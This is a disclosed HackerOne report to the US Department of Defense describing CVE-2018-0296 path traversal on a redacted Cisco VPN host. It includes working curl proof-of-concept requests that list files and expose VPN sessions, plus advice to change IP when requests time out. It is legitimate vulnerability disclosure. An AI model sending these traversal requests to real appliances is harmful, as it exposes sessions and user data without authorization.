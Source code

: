 # [CVE-2018-0296] Cisco VPN path traversal on the https://████████/ (no hostname)

## Report Details
- **Report ID**: 695780
- **URL**: https://hackerone.com/reports/695780
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-09-16T16:36:26.728Z
- **Disclosed**: 2024-07-19T14:25:49.489Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
I discovered previously unidentified instance https://██████████/ in ██████████ network, vulnerable to the CVE-2018-0296 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-0296)


##POC
```
curl -i -k "https://██████/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
```
█████████

We can disclose user sessions by quering /sessions:
```
curl -i -k "https://████████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```


##Suggested fix
Updating to the latest version should fix the issue. Fixed version should give 404 "File not found" error.
Example of patched version:
```
curl -i -k "https://███████.███████.mil/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```

##Notes
In case you experience request timeout when reproducing, try to change your IP/VPN.

## Impact

Path traversal, which can allow the unauthenticated attacker disclose sensitive information such as VPN sessions, files, usernames. Under some conditions it's possible to cause DOS attacks

## Attachments
No attachments
